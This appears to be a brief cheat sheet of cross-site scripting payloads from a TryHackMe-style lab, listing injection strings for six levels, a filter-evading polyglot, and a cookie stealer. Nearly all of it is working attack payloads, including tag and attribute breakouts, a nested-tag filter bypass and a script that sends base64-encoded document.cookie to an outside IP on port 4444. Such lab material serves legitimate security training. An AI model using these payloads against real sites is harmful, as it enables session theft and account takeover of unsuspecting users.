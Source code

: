 ### XSS

### Level 1: <script>alert('THM');</script>

### Level 2: "><script>alert('THM');</script>

### Level 3: </textarea><script>alert('THM');</script>

### Level 4: ';alert('THM');//

### Level 5: <sscriptcript>alert('THM');</sscriptcript>

### Level 6: /images/cat.jpg" onload="alert('THM');

### POLYGLOTS: jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

### cookie stealer: </textarea><script>fetch('http://10.11.106.164:4444?cookie=' + btoa(document.cookie) );</script>
